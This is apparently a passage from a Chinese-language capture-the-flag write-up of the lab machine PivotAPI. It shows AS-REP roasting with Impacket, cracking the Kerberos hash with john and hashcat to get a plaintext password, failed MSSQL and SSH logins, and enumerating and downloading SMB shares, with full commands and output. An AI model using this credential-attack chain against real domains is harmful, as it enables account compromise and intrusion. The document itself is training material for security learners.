 ```bash
─$ /usr/share/doc/python3-impacket/examples/GetNPUsers.py LicorDeBellota.htb/Kaorz -dc-ip 10.10.10.240
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Cannot authenticate Kaorz, getting its TGT
$krb5asrep$23$Kaorz@LICORDEBELLOTA.HTB:1bc7f71d47c8a4389f7716eadeb6f786$dfe45a53c00a2d9ed2173cef52ad9a7c0fa5833fd2ffe67383ee5156ee9d0144de9a639d0453327662535d4c0d1707f5d681c0cbb84f759732d7298d77e67dcd79cb28ced178c0570ec65e9d3507b1e6a11eeedc2ba604730746fc452ea935e642da0c145fea90df69babf68af6068cfd31b4e7de90560ce30db6adbda8cf11c3f6c0b1b368b0ced102ffe8b794888c6179f1c7c36ea7bbc7336fa77a952fb4c4c63dcfab21d4d6128f4143d514b870370d87c2c690c6700b58d940af2b5b917c083bcbdbc1ea43d114bc97dbb60d6abbcef22da6e2f460f95d23c734bd9955f85cfc72267655f419012c66bd5e064b5d7abad13054f0674
```

```bash
john TGT_hash --wordlist=/usr/share/wordlists/rockyou.txt
john TGT_hash --show
$krb5asrep$23$Kaorz@LICORDEBELLOTA.HTB:Roper4155
```

也可以使用`hashcat`

```bash
.\hashcat.exe --help | findstr AS-REP
18200 | Kerberos 5, etype 23, AS-REP

.\hashcat.exe -m 18200 .\hashes\TGT_hash.txt .\hashes\rockyou.txt

Roper4155
```

```bash
Kaorz:Roper4155
```


尝试使用得到的凭证登陆mssql，ssh。 都没能成功

```bash
cd /usr/share/doc/python3-impacket/examples
export PATH=$PATH:.

mssqlclient.py LicorDeBellota.htb/Kaorz:Roper4155@LicorDeBellota.htb
[-] ERROR(PIVOTAPI\SQLEXPRESS): Line 1: Error de inicio de sesión del usuario 'Kaorz'.

└─$ sshpass -p 'Roper4155' ssh  Kaorz@LicorDeBellota.htb
Permission denied, please try again.
```

### 登录到SMB服务

```bash
nxc smb LicorDeBellota.htb -u 'Kaorz' -p 'Roper4155' --shares
SMB         10.10.10.240    445    PIVOTAPI         IPC$            READ            IPC remota
SMB         10.10.10.240    445    PIVOTAPI         NETLOGON        READ            Recurso compartido del servidor de inicio de sesión 
SMB         10.10.10.240    445    PIVOTAPI         SYSVOL          READ            Recurso compartido del servidor de inicio de sesión

smbclient  -U LicorDeBellota.htb/Kaorz%Roper4155 //10.10.10.240/IPC$
# /IPC$ 没有文件
smbclient  -U LicorDeBellota.htb/Kaorz%Roper4155 //10.10.10.240/NETLOGON
cd helpdesk
prompt off
mget *

```
